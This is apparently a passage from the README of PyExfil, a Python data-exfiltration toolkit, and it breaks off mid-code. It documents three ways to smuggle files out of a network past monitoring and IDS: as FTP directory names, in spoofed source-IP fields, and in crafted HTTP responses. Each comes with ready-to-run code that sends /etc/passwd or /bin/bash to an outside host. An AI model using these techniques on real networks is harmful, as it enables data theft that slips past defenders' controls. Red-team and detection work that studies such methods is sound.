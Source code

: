 #### FTP MKDIR
FTP MKDIR is a technique based on using an FTP server and assuming that the corporate is using an active MiTM to disable file upload. With this in mind, the file is then compressed using `zlib` and base64 encoded (to be ASCII representable) and then split into chunks. Each chunk is then made the name of a directory using MKDIR command (which is not a file upload and should be enabled).
It can be used in the following manner:

```python
from pyexfil.network.FTP.ftp_exfil import FTPExfiltrator
# Port is by default 21, but can be changed with 'port=2121'
# Credentials are () but can be added with: creds=('user','pass')
# TLS is disabled by default but could be added with tls=True
FTPexf = FTPExfiltrator(server="10.211.55.15", file2exfil="/bin/bash")
FTPexf.get_file_chunks()
FTPexf.build_final_chunks()
FTPexf.send_chunks()
```

```python
from pyexfil.network.FTP.ftp_exfil import GetContent
# Directory argument can be added with: dir="/home/user/directory"
FTPHand = GetContent()
FTPHand.get_file()
```

#### Source IP Based Exfiltration

Will take a file and attempt to exfiltrate it on the source IP field in a TCP/IP packet. This method is slow, and depending on the configuration of the IDSs might trigger more alerts or none at all. We figured out it worked in a lot of our cases although it was relatively slow. It is written poorly and will not even support exfiltration of two files at the same time and will not make up for integrity issues. We welcome contributors here.

Exfiltration
```python
from pyexfil.network.SpoofIP import spoofIPs_client

_send(file_path="/etc/passwd", to="127.0.0.1")
```

Decoding (must run simultaneously)
```python
from pyexfil.network.SpoofIP import spoofIPs_server

sniff(iface="en0", prn=pkt_callback, filter="tcp", store=0)
```

#### HTTP Response

This one uses a custom crafter HTTP Response instead of a request. This might be
very useful in various cases. Many times HTTP requests are monitored for ratio,
type, data, etc and Responses are kind of ignored. **Could be extremely useful
in cases when you have passive MiTM!**

```python
from pyexfil.network.HTTPResp.client import Broadcast
b = Broadcast(
                fname="/etc/passwd",
                dst_ip="www.espn.com",
                dst_port=80,
                max_size=1024,
                key=DEFAULT_KEY
                )
b.Exfiltrate()

# Assembly of data
a = Assemble()
for i in b.packets:
```